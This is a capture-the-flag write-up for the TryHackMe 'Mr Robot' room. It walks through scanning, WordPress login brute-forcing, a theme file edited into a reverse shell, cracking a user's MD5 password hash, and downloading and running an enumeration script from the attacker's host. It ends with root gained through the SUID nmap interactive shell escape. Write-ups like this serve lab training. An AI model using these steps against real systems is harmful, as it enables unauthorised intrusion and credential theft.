 # Mr Robot CTF Try Hack Me 


> scan with `nmap -sC -sV 10.10.171.29 > nmap_log`
```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-12 09:49 WIB
Nmap scan report for 10.10.171.29
Host is up (0.37s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 356.67 seconds
```

> check file robots.txt `http://10.10.171.29/robots.txt`
```js
User-agent: *
fsocity.dic
key-1-of-3.txt
```
> open `http://10.10.171.29/key-1-of-3.txt` got the first key `0xxx0xxxaxxx1xxxdxxx4xxxbxx7xxx9`
> download fsocity.dic `http://10.10.171.29/fsocity.dic`

> using gobuster and get wordpress login `wp-login`
> create Brute Login to `wp-login.php` using python and dictionary file
> after got username and password login to `wp-login`
> edit file on dashboard `archive.php` to reverse shell and access `http://10.10.171.29/wp-content/themes/twentyfifteen/archive.php`
> after got the shell look at `/home/robot`
```bash
daemon@linux:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt 
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

> crack the `c3fcd3d76192e4007dfb496cca67e13b` result is `axxxexxxixxxmxxxqxxxuxxxyz`
> using that password go to robot using su

```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ cat key-2-of-3.txt 
8xxx7xxx6xxxfxxx9xxxexxxexxxfxxx
```

> open our connection using `python -m http.server 81`  in my case i open port 81 and my ip `10.4.37.160:81` and cd to `/dev/shm`

```bash
robot@linux:/dev/shm$ wget http://10.4.37.160:81/linenum.sh
wget http://10.4.37.160:81/linenum.sh
--2023-10-12 04:32:43--  http://10.4.37.160:81/linenum.sh
Connecting to 10.4.37.160:81... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [application/x-sh]
Saving to: ‘linenum.sh’

100%[======================================>] 46,631      54.4KB/s   in 0.8s   

2023-10-12 04:32:44 (54.4 KB/s) - ‘linenum.sh’ saved [46631/46631]

robot@linux:/dev/shm$ chmod +x linenum.sh
chmod +x linenum.sh

robot@linux:/dev/shm$ ./linenum.sh
./linenum.sh

.... a lot of bunch output from linenum 
....
[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
....
.... a lot of bunch output from linenum 
```

> use that interesting SUID files to check on GtfoBin and use that to privesc

# Priviledge Escalation
```sh
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
firstboot_done	key-3-of-3.txt
# ls -la
ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat firstboot_done
cat firstboot_done
# cat key-3-of-3.txt
cat key-3-of-3.txt
0xxx7xxxfxxx3xxx1xxx6xxx1xxxbxxx
```

> and ... yay!  we solved that challl....